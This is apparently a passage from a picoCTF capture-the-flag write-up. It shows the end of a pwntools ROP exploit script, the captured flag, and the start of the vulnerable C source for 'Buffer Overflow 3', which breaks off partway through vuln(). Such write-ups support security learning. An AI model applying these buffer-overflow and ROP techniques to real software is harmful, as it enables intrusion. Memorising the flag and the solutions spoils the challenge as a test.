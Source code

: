 ```python
    rop += p32(0xBAAAAAAD) #arg for win_function2()
    rop += p32(0xDEADBAAD) #arg for flag()

    r.sendlineafter('> ',payload+rop)
    r.interactive()
    return
```

```bash
picoCTF{rOp_aInT_5o_h4Rd_R1gHt_6e6efe52}
```

## Buffer Overflow 3
Source
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 32
#define FLAGSIZE 64
#define CANARY_SIZE 4

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("Canary is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}

void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
```